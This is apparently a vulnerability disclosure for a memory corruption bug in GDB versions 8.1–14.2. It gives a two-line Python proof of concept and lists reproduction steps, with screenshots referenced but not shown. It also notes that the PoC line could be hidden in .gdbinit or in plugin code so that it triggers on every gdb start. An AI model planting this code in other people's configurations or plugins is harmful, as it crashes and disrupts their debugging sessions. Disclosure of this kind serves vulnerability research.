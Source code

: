 ## Exploit **GDB 8.1~14.2 memory corruption** 

Google Dork:gdb, memory leak, memory exhausted， memory out-of-bounds.

Date: 2024.4.2

Exploit Author: N1nEmAn

Vendor Homepage: https://www.sourceware.org/gdb

Software Link: https://sourceware.org/pub/gdb/releases/

Version: 8.1~14.2  (currently known, and possibly more)

Tested on: Ubuntu18.02、archlinux-2024

## POC-old

Save as `poc.py` and use `source /path/to/poc.py`.

```py
import gdb
gdb.selected_inferior().read_memory(0, 18446744073709551615)
```
The following is an outdated reproduction. I found that even without loading any binary program, the vulnerability can still be reproduced. If I write 'source /path/to/poc.py' in .gdbinit or even hide it within the plugin code loaded by the gdbinit file, it will cause the vulnerability to be triggered every time gdb is run.

And I will make the following changes below to provide a new reproduction.
## Vulnerability Reproduction

We exploited this in the newest GDB (14.2), and here are the details of my operating system:

```sh
OS: Arch Linux x86_64
Kernel: 6.8.2-zen2-1-zen
Memory: 9998MiB / 27746MiB
CPU: AMD Ryzen 7 6800H with Radeon Graphics
GPU: AMD ATI Radeon 680M
```

### 1.load any binary file

![image-20240402211432774](./1.png)

### 2.run it and ctrl+c to stop it

![image-20240402211541005](./2.png)

### 3. source poc.py
We can see successful memory out-of-bounds access and corruption.
![image-20240402211613585](./3.png)

![image-20240402212709525](./4.png)

### 4. in Ubuntu

![image-20240402212845142](./5.png)

## POC-new
### just run gdb and source the poc (without debugging anything)
![image](https://github.com/N1nEmAn/wp/assets/118088443/4da536f9-3a63-4daf-88ef-073f21cca1d0)
